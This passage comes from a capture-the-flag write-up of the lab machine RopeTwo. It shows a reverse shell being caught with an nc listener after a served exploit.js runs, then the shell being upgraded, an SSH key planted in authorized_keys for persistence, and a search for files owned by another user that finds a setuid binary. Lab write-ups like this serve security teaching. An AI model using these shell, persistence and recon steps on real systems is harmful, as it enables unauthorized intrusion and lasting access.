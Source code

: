 

Looks like I have a way to get RopeTwo to load script.

### Shell

I'll combine all this to get a shell. I'll start a Python HTTP server to
serve `exploit.js`, and start a `nc` listener. Then I'll submit:

![](/img/image-20201115074354796.png)

At `nc`, a shell connects:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.196.
    Ncat: Connection from 10.10.10.196:58812.
    id
    uid=1001(chromeuser) gid=1001(chromeuser) groups=1001(chromeuser)



And upgrade my shell:



    python3 -c 'import pty;pty.spawn("bash")'
    chromeuser@rope2:/home/chromeuser/web$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    root@kali# stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    chromeuser@rope2:/home/chromeuser/web$



I'll also add my public SSH key to the chromeuser's `authorized_keys`
file for SSH access.

## Priv: chromeuser --\> r4j

### Enumeration

There's not anything in chromeuser's home directory except for the web
stuff used to get a shell. There's a second user on the box, r4j.
chromeuser can't access r4j's home directory, but I did go looking for
files owned by r4j:



    chromeuser@rope2:/$ find / -user r4j -ls 2>/dev/null | grep -v -e " \/proc" -e " \/sys"
      1056436     16 -rwsr-xr-x   1 r4j      r4j         14312 Feb 24  2020 /usr/bin/rshell
      1054404      4 drwx------   7 r4j      r4j          4096 Nov 24 15:30 /home/r4j
            2      0 drwx------   4 r4j      r4j           100 Nov 24 14:44 /run/user/1000
            9      0 crw--w----   1 r4j      tty        136,   6 Nov 24 15:30 /dev/pts/6
